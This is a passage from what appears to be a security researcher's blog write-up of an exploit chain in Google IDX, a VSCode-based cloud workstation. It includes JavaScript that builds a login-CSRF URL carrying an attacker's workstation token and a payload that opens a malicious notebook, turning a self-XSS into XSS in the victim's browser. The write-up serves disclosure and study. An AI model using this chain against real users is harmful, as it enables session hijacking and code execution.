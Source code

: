 The `command:` uri is an interesting attack surface you can find some other blogposts as well related to this  for eg 

<center><a
  href="https://www.sonarsource.com/blog/VSCode-security-markdown-vulnerabilities-in-extensions/"
  class="card-preview"
  data-size="large"
  target="_blank">
  Loading preview...
</a></center>
<br/>
<br/>
VSCode has so many features so if you are able to find an xss in the same origin as the VSCode web then it's game over it will be an escalation of XSS to RCE just like we see in Electron application.

In case of IDX it doesn't supports external urls :(  we are limited to local filesystem only, so what we do here. Well the duo (Sreeram and Sivanesh) has a solution for this problem as well can you guess what is it? A **Login CSRF**

````
?payload=%5B%5B%22openFile%22,%22https://%5Bserver_location_goes_here%5D/something.ipynb%22

[["openFile","https://[server_location_goes_here]/something.ipynb"]

Change the location to match the absoule path in local file system 
````

Although the attacker could get an XSS in `*.cloudworkstations.googleusercontent.com` like described above, it is only accessible to the attacker, making it a self-XSS. To exploit it on the victim's browser, the attacker needs to exploit a login CSRF in the IDX workstation.

This is possible by using the GET parameter `_workstationAccessToken`. When the victim sends a GET request with the attacker's `WorkstationJwt` cookie in this parameter, they would be able to access the attacker's IDX workstation, making the self-XSS exploitable in the victim's browser.

````js

var attacker_idx_workstation_domain = "idx-attacker-1722601960617.cluster-bec2e4635ng44w7ed22sa22hes.cloudworkstations.dev"
var path_to_exploit_ipynb = "/home/shirley/attacker/xss.ipynb"|
var attacker_workstation_jwt_cookie = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3...."

var folder = path_to_exploit_ipynb.substring(0,path_to_exploit_ipynb.lastIndexOf('/'))

var url = "https://"+attacker_idx_workstation_domain+"/?payload=[[%22openFile%22,%22VSCode-remote://"+path_to_exploit_ipynb+"%22]]&_workstationAccessToken="+attacker_workstation_jwt_cookie+"&folder="+folder;
````

`vscode-remote` scheme actually points to the local file system only

Example final url which  the attacker needs to send to the victim:

```
https://idx-attacker-1722601960617.cluster-bec2e4635ng44w7ed22sa22hes.cloudworkstations.dev/?payload=[[%22openFile%22,%22VSCode-remote:///home/shirley/attacker/xss.ipynb%22]]&_workstationAccessToken=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3....&folder=/home/shirley/attacker
```
A sweet chain which includes the login CSRF as well the initial XSS which would trigger in the context of `*.cloudworkstations.googleusercontent.com` origin.

---